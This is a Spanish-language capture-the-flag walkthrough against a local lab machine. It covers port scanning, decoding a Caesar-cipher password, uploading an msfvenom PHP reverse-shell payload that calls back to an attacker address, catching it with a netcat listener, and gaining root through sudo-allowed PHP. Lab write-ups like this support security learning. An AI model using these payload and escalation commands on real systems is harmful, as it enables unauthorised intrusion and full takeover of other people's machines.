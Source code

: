 Hacemos un sacaneo con [[00. Apuntes/01. Herramientas/NMAP|NMAP]] para encontrar los puertos abiertos
` nmap -p- --open -sCV --min-rate 5000 -Pn -n 172.17.0.2 `

Encontramos abiertos el puerto 80 y el 443
En primer lugar navegamos al puerto 80, vemos que hay un archivo .txt `backup.txt`
![[Pasted image 20241214112238.png]]

El mensaje nos habla de que para resolver el acertijo tenemos que pensar en un antiguo emperador Romano y su simple metodo de intercambiar letras.
Esta hablando del cifrado Cesar que consiste en cambiar las latras de ubicacion. Buscamos enn internet alguna pagina que nos ayude con este tipo de cifrado.
`www.dcode.fr/cifrado-cesar`

La primera opcion que sale es la siguiente, suele ser la que mas coeherencia tiene.
![[Pasted image 20241214113207.png]]

No podemos hacer nama mas con el puerto 80 asi que pasaremos al 443.
En la web nos encontramos una zona para poder hacer subida de archivos asi que vamos a generar un payload con [[00. Apuntes/01. Herramientas/MSFVENOM|MSFVENOM]]
`msfvenom -p php/reverse_php LHOST=<IP_atactante> LPORT=444 raw > pwned.php`

Una vez tenemos subido el archivo tenemos que usar tecnicar de Fuzzing para encontrar en que directorio se suben los archivos, lo haremos con [[00. Apuntes/01. Herramientas/GOBUSTER|GOBUSTER]]
`gobuster dir -u https://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh -k`

Encontarmos un directorio `/uploads`
![[Pasted image 20241214113922.png]]

Navegamos hasta el y vemos que se encuentra hay el fichero `pwned.php` que hemos subido
![[Pasted image 20241214114022.png]]

Nos ponemos en escucha con [[NETCAT]] en el pueto especificado en el [[00. Apuntes/01. Herramientas/MSFVENOM|MSFVENOM]]
`nc -lvnp 444`

 Y hacemos click en el archivo subido, con esto conseguiremos acceso a la maquina, pero antes de hacer nada tenemos que [[01. Tratamiento de la TTY]] . 
antes del tartamiento de la tty nos mandamos la reverse shell a otro puerto para asi poder tenr una sehll stable ya que [[00. Apuntes/01. Herramientas/MSFVENOM|MSFVENOM]] la que nos aporta no es estable.

Una vez ya tenemos la shell estable navegamos al directorio `/home` y vemos que existe el usuario mateo, usamos la contraseña del cifrado cesar pero nos da error asi que probamos quitandole la x, y conseguimos acceso.
Procedemos a la escalada de privilegios, para eso usamos el comando `sudo -l` para ver que puede ejecutar mateo como root. Tiene perimtido `/usr/bin/php`
Si usamos [[GTFOBINS]] veremos diferentes occiones para obtener una shell como root
![[Pasted image 20241214121711.png]]

En lugar de usar `CMD=` para declarar la variable exribiremos diractamente `/bin/sh` en `system` para que se nos genere una terminal. Quedaria asi:
`sudo -u root /usr/bin/php -r "system('/bin/sh');"`

Y obtendremos acceso como root